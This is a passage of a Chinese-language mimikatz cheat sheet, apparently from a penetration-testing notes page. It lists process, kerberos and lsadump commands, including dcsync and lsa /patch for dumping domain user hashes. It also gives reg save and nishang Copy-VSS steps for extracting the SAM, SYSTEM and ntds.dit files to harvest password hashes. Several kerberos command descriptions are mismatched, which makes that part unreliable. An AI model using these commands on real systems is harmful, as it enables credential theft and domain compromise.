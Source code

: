 ```
process::list 列出进程列表
process::exports 导出进程列表
process::imports 导入列表
process::start 开始一个进程
process::stop 停止一个程序
process::suspend 冻结一个进程
process::resume 从冻结中恢复
process::run notepad 运行一个程序
process::runp 以SYSTEM系统权限打开一个新的mimikatz窗口
```

### kerberos模块

```
kerberos::list 列出系统中的票据
kerberos::tgt 清除系统中的票据
kerberos::purge 导入票据到系统中
kerberos::ptc 票据路径
```

### lsadump模块

```
在域控上执行)查看域kevin.com内指定用户root的详细信息，包括NTLM哈希等
lsadump::dcsync /domain:kevin.com /user:root
(在域控上执行)读取所有域用户的哈希
lsadump::lsa /patch
从sam.hive和system.hive文件中获得NTLM Hash
lsadump::sam /sam:sam.hive /system:system.hive
从本地SAM文件中读取密码哈希
token::elevate
lsadump::sam
```

## SAM文件抓取密码

### 导出sam和system文件 

1、通多reg命令无工具导出

```
reg save hklm\sam sam.hive
reg save hklm\system system.hive
```

![image-20230202174141247](https://img.gyxnb.top/img/image-20230202174141247.png)

2、通过nishang中的Copy-VSS进行复制，如果这个脚本运行在了 DC服务器上，ntds.dit 和 SYSTEM hive也能被拷 贝出来

```
copy‐vss //直接将文件保存在当前目录下
copy‐vss ‐DestinationDir 路径 //指定保存文件的路径（必须是已经存在的路径）
```
